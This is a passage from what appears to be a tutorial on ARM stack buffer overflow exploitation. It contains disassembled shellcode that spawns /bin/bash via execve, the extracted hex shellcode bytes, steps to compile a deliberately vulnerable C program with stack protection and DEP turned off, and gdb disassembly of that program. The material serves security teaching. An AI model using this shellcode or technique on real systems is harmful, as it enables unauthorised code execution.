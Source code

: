 This prints

```assembly
000103f0 <needle0>:
   103f0:	ea000004 	b	10408 <lab1>

000103f4 <lab0>:
   103f4:	e1a0000e 	mov	r0, lr
   103f8:	e0211001 	eor	r1, r1, r1
   103fc:	e0222002 	eor	r2, r2, r2
   10400:	e3a0700b 	mov	r7, #11
   10404:	ef000000 	svc	0x00000000

00010408 <lab1>:
   10408:	ebfffff9 	bl	103f4 <lab0>
   1040c:	6e69622f 	.word	0x6e69622f
   10410:	7361622f 	.word	0x7361622f
   10414:	68          	.byte	0x68

00010415 <needle1>:
```

Because '0x415-0x3f0' equals 37 in decimal, we round it to 40 bytes (so
that the code is 4-byte aligned) for the shell code.

```bash
$ xxd -s0x3f0 -l40 -p shell > shellcode.txt
$ cat shellcode.txt
040000ea0e00a0e1011021e0022022e00b70a0e3000000eff9ffffeb2f62
696e2f6261736800dead
```

This is the shell code we are going to jump to after overrunning the stack
buffer later.

### The bad code

The bad C code, [badcode.c](src/badcode.c), exhibits a classic buffer overflow
on the stack. To compile the code without stack protection and DEP, two
OS-added anti-exploitation countermeasures, for the demonstration purpose, do

```bash
$ make badcode
```

Now let's get some idea about the stack layout in the 'badcode' program.

```bash
$ gdb ./badcode
```

Within the `gdb` console, disassemble the 'main' function

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0001047c <+0>:	push	{r11, lr}
   0x00010480 <+4>:	add	r11, sp, #4
   0x00010484 <+8>:	sub	sp, sp, #88	; 0x58
   0x00010488 <+12>:	str	r0, [r11, #-88]	; 0x58
   0x0001048c <+16>:	str	r1, [r11, #-92]	; 0x5c
   0x00010490 <+20>:	sub	r3, r11, #84	; 0x54
   0x00010494 <+24>:	ldr	r0, [pc, #52]	; 0x104d0 <main+84>
   0x00010498 <+28>:	mov	r1, r3
   0x0001049c <+32>:	bl	0x1030c
   0x000104a0 <+36>:	ldr	r0, [pc, #44]	; 0x104d4 <main+88>
   0x000104a4 <+40>:	bl	0x10324
   0x000104a8 <+44>:	sub	r3, r11, #84	; 0x54
   0x000104ac <+48>:	mov	r0, r3
   0x000104b0 <+52>:	bl	0x10318
```